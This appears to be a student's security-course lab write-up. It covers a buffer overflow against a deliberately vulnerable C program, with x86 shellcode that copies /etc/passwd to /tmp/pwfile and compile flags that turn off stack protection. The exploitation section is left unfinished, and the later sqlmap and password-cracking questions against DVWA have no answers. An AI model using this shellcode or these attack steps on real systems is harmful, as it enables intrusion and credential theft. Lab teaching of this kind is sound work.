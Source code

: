 # Lab #1,22110015, Nguyen Manh Cuong, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

## 1.Create a Vulnerable C Program

```bash
nano redundant_code.c
```
![image](https://github.com/user-attachments/assets/2e434b7b-7ddf-4675-8e55-54fbc71d3579)

Create a C program that contains a buffer overflow vulnerability

## 2.  Compile the C Program

```bash
gcc -o redundant_code redundant_code.c -fno-stack-protector -z execstack
```

## 3. Create the Assembly Payload

* Now, create an assembly program that will copy /etc/passwd to /tmp/pwfile. Here’s the assembly code

```bash
nano asm_code.c
```
![image](https://github.com/user-attachments/assets/d431ef63-ede5-4b1c-ad05-3e1ba676f77f)








```bash
gcc -g redundant_code.c -o redundant_code.out -fno-stack-protector -mpreferred-stack-boundary=2
./redundant_code.out "AAAAAAAAAAAAAAA"
./redundant_code.out "AAAAAAAAAAAAAAAAAAAAAA"
```
![image](https://github.com/user-attachments/assets/b823e414-1f98-44b3-b543-f2a5c2cd23c5)

```bash
nasm -f elf32 asm_code.asm -o asm_code.o
ld -m elf_i386 asm_code.o -o asm_code
```
![image](https://github.com/user-attachments/assets/45156517-4e64-49af-8d50-ff77915cd2be)

## 2.Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do.



**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:



